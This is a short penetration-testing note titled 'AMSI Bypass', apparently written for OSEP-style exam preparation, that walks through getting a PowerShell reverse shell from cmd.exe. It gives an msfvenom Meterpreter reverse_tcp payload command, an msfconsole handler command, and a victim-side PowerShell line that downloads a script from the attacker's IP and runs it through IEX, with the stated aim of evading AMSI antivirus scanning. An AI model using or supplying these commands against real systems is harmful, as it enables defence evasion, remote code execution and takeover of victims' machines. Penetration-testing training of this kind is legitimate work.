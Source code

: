 # AMSI Bypass

<details>

<summary>Powershell Rev shell from CMD.exe</summary>

* Download all files from [https://github.com/beauknowstech/OSEP-Everything/tree/main/AMSI](https://github.com/beauknowstech/OSEP-Everything/tree/main/AMSI)

- Change Line 4 to Kali's IP
  * ![](<../.gitbook/assets/image (1) (1) (1) (1).png>)

* Host Python Webserver on Kali&#x20;
* Generate payload & put in line 47 of shellcoderunner.ps1<img src="../.gitbook/assets/image (3) (1) (1).png" alt="" data-size="line">

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f powershell
```

* Start Msfconsole listener

```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"
```

In Victim's cmd.exe shell, run:

```
powershell -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1')
```

Following errors are expected:

<img src="../.gitbook/assets/image (4) (1).png" alt="" data-size="original">\


</details>



